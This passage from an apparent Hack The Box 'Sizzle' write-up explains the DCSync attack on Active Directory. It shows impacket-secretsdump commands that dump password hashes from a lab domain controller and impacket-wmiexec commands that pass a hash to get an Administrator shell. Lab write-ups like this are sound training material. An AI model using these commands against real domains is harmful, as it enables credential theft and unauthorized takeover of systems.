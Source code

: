 > **GetChanges** (Windows Abuse): with both **GetChanges** and **GetChangesAll** privileges in **BloodHound**, you may perform a **DCSync attack** to get the password hash of an arbitrary principal using **mimikatz**.

> A **[DCSync attack](https://www.semperis.com/blog/dcsync-attack/){:target="_blank"}** is an attack technique that is typically used to steal credentials from an **AD database**. The attacker impersonates a **Domain Controller** (**DC**) to request password hashes from a target **DC**, using the **Directory Replication Services** (**DRS**) **Remote Protocol**. The attack can be used to effectively **“pull”** password hashes from the **DC*+, without needing to run code on the **DC** itself. This type of attack is adept at bypassing traditional auditing and detection methods. 

- Note that the attacker must first gain access to an account with high-level permissions, such as **Domain Admin** or an account with the ability to replicate data from the **DC**. This action requires the following permissions on the Domain Naming Context:
  - Replicate Directory Changes
  - Replicate Directory Changes All

> **Attacker Machine**:

```bash
# http://127.0.0.1:8080/ui/explore
# Outbound Object Control --> HTB.LOCAL (GetChanges,GetChangesAll,GetChangesInFilteredSet)

impacket-secretsdump htb.local/mrlky:F...7@10.10.10.103
# :)
impacket-wmiexec HTB.LOCAL/Administrator@10.10.10.103 -hashes :f6...67
# :)
```

> **Victime Machine**:

```cmd
dir /s user.txt
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_98.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_99.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_100.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_101.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_102.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_103.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_104.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

